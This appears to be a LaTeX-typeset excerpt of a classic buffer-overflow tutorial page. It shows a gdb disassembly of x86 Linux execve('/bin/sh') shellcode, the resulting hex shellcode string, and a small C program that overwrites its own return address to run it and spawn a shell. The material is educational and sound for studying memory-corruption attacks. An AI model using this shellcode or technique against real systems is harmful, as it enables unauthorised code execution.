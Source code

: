 \documentclass[10pt]{article}
\begin{document}
\begin{CJK}{UTF8}{bsmi}
{\small
\begin{verbatim}
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
[aleph1]$ gdb shellcodeasm

GDB is free software and you are welcome to distribute 
copies of it under certain conditions; type 
"show copying" to see the conditions.

There is absolutely no warranty for GDB; type 
"show warranty" for details.  

GDB 4.15 (i586-unknown-linux), Copyright 1995 
Free Software Foundation, Inc...

(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 :    pushl  %ebp
0x8000131 :    movl   %esp,%ebp
0x8000133 :    jmp    0x800015f 
0x8000135 :    popl   %esi
0x8000136 :    movl   %esi,0x8(%esi)
0x8000139 :    movb   $0x0,0x7(%esi)
0x800013d :    movl   $0x0,0xc(%esi)
0x8000144 :    movl   $0xb,%eax
0x8000149 :    movl   %esi,%ebx
0x800014b :    leal   0x8(%esi),%ecx
0x800014e :    leal   0xc(%esi),%edx
0x8000151 :    int    $0x80
0x8000153 :    movl   $0x1,%eax
0x8000158 :    movl   $0x0,%ebx
0x800015d :    int    $0x80
0x800015f :    call   0x8000135 
0x8000164 :    das
0x8000165 :    boundl 0x6e(%ecx),%ebp
0x8000168 :    das
0x8000169 :    jae    0x80001d3 <__new_exitfn+55>
0x800016b :    addb   %cl,0x55c35dec(%ecx)
End of assembler dump.

(gdb) x/bx main+3
0x8000133 :     0xeb

(gdb)
0x8000134 :     0x2a

(gdb)
.
.
.
\end{verbatim}
}

\begin{lstlisting}[caption=testsc.c,frame=single,frameround=tttt,breaklines=true]
char shellcode[] =
"\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
"\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
"\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
"\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

void main() 
{
   int *ret;
   ret = (int *)&ret + 2;

   (*ret) = (int)shellcode;
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o testsc testsc.c
[aleph1]$ ./testsc
$ exit
[aleph1]$
\end{verbatim}


\end{CJK}
\end{document}
